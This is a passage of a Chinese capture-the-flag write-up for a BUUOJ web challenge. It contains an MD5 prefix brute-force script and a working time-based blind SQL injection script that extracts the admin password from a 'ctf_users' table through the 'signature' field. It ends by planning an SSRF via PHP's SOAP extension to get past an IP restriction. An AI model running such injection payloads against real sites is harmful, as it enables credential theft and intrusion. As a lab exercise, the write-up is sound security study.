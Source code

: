```python
import hashlib

def func(md5_val):
    for x in range(999999, 100000000):
        md5_value=hashlib.md5(str(x).encode(encoding='utf-8')).hexdigest()
        if md5_value[:5]==md5_val:
            return str(x)

if __name__ == '__main__':
    print(func('ac7a2'))
```

时间盲注建议还是两个for循环吧，二分不知道为啥一直出问题

```python
import requests

url="http://a4a900d6-ddc6-42eb-b95c-7e63d56d9bba.node4.buuoj.cn:81/index.php?action=publish"
cookie = {"PHPSESSID":"5j1p272lfmi425cpmkv9lik9o7"}

k="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
flag=""

for i in range(50):
    for j in k:
        j = ord(j)
        data={
            'mood':'0',
            'signature':'1`,if(ascii(substr((select password from ctf_users where username=`admin`),{},1))={},sleep(3),0))#'.format(i,j)
            }
        try:
            r=requests.post(url,data=data,cookies=cookie,timeout=(2,2))
        except:
            flag+=chr(j)
            print(flag)
            break

```

跑出来md5解密后得到jaivypassword

有密码和账号却登不了，因为他在sql表中设置了`allow_diff_ip`，只有管理员地址才可以，并且使用了`$_SERVER['REMOTE_ADDR']`

![image-20211210093956425](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210093956425.png)

![image-20211210094111483](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210094111483.png)

![image-20211210094124067](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210094124067.png)

没法xff绕过，只能找一处ssrf的点；从之前的phpinfo泄露可以看到开启了soap扩展，现在就缺一个反序列化点了

![image-20211210095343906](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210095343906.png)

